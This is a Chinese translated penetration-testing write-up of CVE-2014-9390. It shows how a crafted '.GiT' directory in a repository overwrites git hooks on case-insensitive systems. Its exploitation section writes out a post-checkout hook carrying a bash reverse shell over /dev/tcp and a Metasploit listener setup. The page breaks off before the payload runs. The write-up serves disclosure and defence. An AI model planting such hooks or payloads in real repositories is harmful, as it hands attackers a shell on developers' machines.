




# One git command may cause you hacked(CVE-2014-9390)

2014/12/22 12:59 | [夺吻狂魔](http://drops.wooyun.org/author/夺吻狂魔 "由 夺吻狂魔 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from：https://www.mehmetince.net/one-git-command-may-cause-you-hacked-cve-2014-9390-exploitation-for-shell/

## 0x00 背景

* * *

CVE-2014-9390 是最近很火的一个漏洞，一个 git 命令就可能导致你被黑，我不打算深入探讨这个漏洞的细节，官方已经在[`github.com/blog/1938-git-client-vulnerability-announced`](https://github.com/blog/1938-git-client-vulnerability-announced) 和 [`article.gmane.org/gmane.linux.kernel/1853266`](http://article.gmane.org/gmane.linux.kernel/1853266)发布了详细信息。总之，如果你使用了大小写不敏感的操作系统例如 Windows 或 OSX，你应该更新 git 客户端了。

让我们以渗透测试的角度来看看这个漏洞。

## 0x01 准备

* * *

我创建了一个命名为 CVE-2014-9390 的新项目。



建立一个.GiT（大些 G，小写 i 然后大写 T）目录，创建一个 vulnerable.txt 文件，然后 push 到项目中。

```
root@rootlab:~/cve-2014-9390# mkdir .GiT
root@rootlab:~/cve-2014-9390# cd .GiT/
root@rootlab:~/cve-2014-9390/.GiT# echo "Vulnerable" >> vulnerable.txt
root@rootlab:~/cve-2014-9390/.GiT# cd ..
root@rootlab:~/cve-2014-9390# git add .
root@rootlab:~/cve-2014-9390# git commit -m 'poc'
[master bec157d] poc
1 file changed, 1 insertion(+)
create mode 100644 .GiT/vulnerable.txt
root@rootlab:~/cve-2014-9390# git push

```

我们再从 Windows 的电脑上用存在漏洞的 git 客户端 pull 同一个项目看看

```
rootlab@MINCE ~
$ git clone git@gitlab.com:mehmet/cve-2014-9390.git
Cloning into 'cve-2014-9390'...
Enter passphrase for key '/c/Users/rootlab/.ssh/id_rsa':
remote: Counting objects: 7, done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 7 (delta 0), reused 0 (delta 0)R
Receiving objects: 100% (7/7), done.
Checking connectivity... done.

```

给大家看一下.git 目录，本应该在.GiT 目录的 vulnerable.txt 也在这里



## 0x02 利用

* * *

### 什么是 git 的 hooks

与许多其他版本控制系统类似，一些重要的动作发生时，git 有一个方法来执行自定义的脚本。hooks 分两方面：客户端和服务器端。当进行 commit 和 merge 时可以触发客户端的 hooks。

当执行 git 命令如 git pull 和 git checkout 时就可以执行客户端的脚本。

### 如何实现 git hooks？

重写.git/hooks 目录下的一个脚本文件，然后执行他，我们可以通过这个漏洞来实现。

我们创建一个假的 git 目录然后建立一个叫 post-checkout 的文件。

```
root@rootlab:~/cve-2014-9390# mkdir .GiT/hooks
root@rootlab:~/cve-2014-9390# echo '#!/bin/sh' > .GiT/hooks/post-checkout
root@rootlab:~/cve-2014-9390# echo 'bash -i >& /dev/tcp/[IPADDRESS]/443 0>&1' >> .GiT/hooks/post-checkout
root@rootlab:~/cve-2014-9390# git add .
root@rootlab:~/cve-2014-9390# git commit -m 'add reverse connection payload'
[master 389c979] add powershell payload
1 file changed, 4 insertions(+)
create mode 100644 .GiT/hooks/post-checkout
root@rootlab:~//cve-2014-9390# git push

```

我们在服务器端监听

```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD generic/shell_reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 108.61.164.142
msf exploit(handler) > exploit
[*] Started reverse handler on 108.61.164.142:443
[*] Starting the payload handler...

```

我们 clone https://gitlab.com/mehmet/cve-2014-9390



看起来都是很正常，但是……



版权声明：未经授权禁止转载 [夺吻狂魔](http://drops.wooyun.org/author/夺吻狂魔 "由 夺吻狂魔 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [GSM HACK 的另一种方法:RTL-SDR](http://drops.wooyun.org/papers/4716)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [GSM Hackeing 之 SMS Sniffer 学习](http://drops.wooyun.org/tips/723)
*   [Trying to hack Redis via HTTP requests](http://drops.wooyun.org/papers/3062)
*   [metasploit 渗透测试笔记(内网渗透篇)](http://drops.wooyun.org/tips/2746)
*   [CVE-2014-6271 资料汇总](http://drops.wooyun.org/papers/3064)